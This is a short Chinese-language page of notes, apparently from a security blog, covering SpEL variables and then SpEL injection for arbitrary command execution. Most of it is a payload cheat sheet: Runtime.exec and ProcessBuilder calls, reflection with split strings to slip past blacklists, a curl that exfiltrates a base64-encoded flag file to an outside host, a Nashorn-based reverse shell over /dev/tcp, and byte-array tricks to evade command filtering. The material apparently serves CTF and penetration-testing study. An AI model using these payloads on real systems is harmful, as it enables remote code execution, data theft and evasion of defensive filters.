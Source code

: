  表达式中的变量可以通过语法#变量名使用。变量可以在StandardEvaluationContext中通过方法setVariable设置。 



#### this和root变量

 \#this变量永远指向当前表达式正在求值的对象（这时不需要限定全名）。变量#root总是指向根上下文对象。#this在表达式不同部分解析过程中可能会改变，但是#root总是指向根 



### 易错点

T()和new一个类时 除了java.lang下的类，其他类都要需要需要限定包全名



## SpEL导致的任意命令执行

### 常用payload

```
T(java.lang.Runtime).getRuntime().exec("nslookup a.com")
T(Thread).sleep(10000)
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup a.com')
new java.lang.ProcessBuilder({'nslookup a.com'}).start()
```



利用反射构造绕过黑名单

```
#{T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"/bin/bash","-c","curl fg5hme.ceye.io/`cat flag_j4v4_chun|base64|tr '\n' '-'`"})}
```



利用ScriptEngineManager构造绕过黑名单

```java
#{T(javax.script.ScriptEngineManager).newInstance()
    .getEngineByName("nashorn")
        .eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/2333;cat <&5 | while read line; do $line 2>&5 >&5; done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}
```



```
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15]
    .invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7]
        .invoke(null),'curl 172.17.0.1:9898')
```

 除此以外当执行的系统命令被过滤或者被URL编码掉时我们可以通过`String`类动态生成字符
如要执行的命令为`open /Applications/Calculator.app`我们可以采用`new java.lang.String(new byte[]{,,...})`或者`concat(T(java.lang.Character).toString())`嵌套来绕过 
